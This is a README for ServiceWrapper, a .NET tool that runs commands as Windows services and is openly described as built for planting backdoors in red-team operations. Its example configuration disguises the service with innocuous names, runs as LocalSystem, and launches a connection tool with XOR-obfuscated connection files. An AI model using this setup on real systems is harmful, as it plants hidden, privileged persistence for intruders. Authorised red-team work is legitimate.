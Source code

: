 # ServiceWrapper

A wrapper for commands to be executed as Windows services. Built for planting backdoors during red teaming operations, however some admins and regular users may find it useful too.

Works with .NET Framework 3.5 upwards (i.e. starting with Windows XP). For the sake of simplicity and portability, it is not currently able to track processes and report errors. So, if for any reason a subprocess dies, the service will still be shown as running. I may add proper background processing at some point, however it works pretty well for me as it is.

## Configuration

The configuration file `ServiceWrapper.xml` must be placed in the same directory as the executable.

### Example

```
<?xml version="1.0" encoding="utf-8"?>
<ServiceConfiguration>
    <Name>OrdinaryService</Name>
    <Description>This is nothing interesting, really.</Description>
    <RunAs>LocalSystem</RunAs>
    <Logging>
        <ServiceLogName>OrdinaryName</ServiceLogName>
        <ServiceLogSource>OrdinarySource</ServiceLogSource>
    </Logging>
    <Commands>
        <Command enabled="true">
            <Executable>C:\Users\Public\Documents\Netflip.exe</Executable>
            <Arguments>--connect=C:\Users\Public\Documents\connection-443.xor --key=15</Arguments>
        </Command>
        <Command enabled="true">
            <Executable>C:\Users\Public\Documents\Netflip.exe</Executable>
            <Arguments>--connect=C:\Users\Public\Documents\connection-8888.xor --key=15</Arguments>
        </Command>
    </Commands>
</ServiceConfiguration>
```

### Options

* RunAs
    - LocalSystem
    - LocalService
    - NetworkService
    - User

## Installation

`c:\>C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe ServiceWrapper.exe`

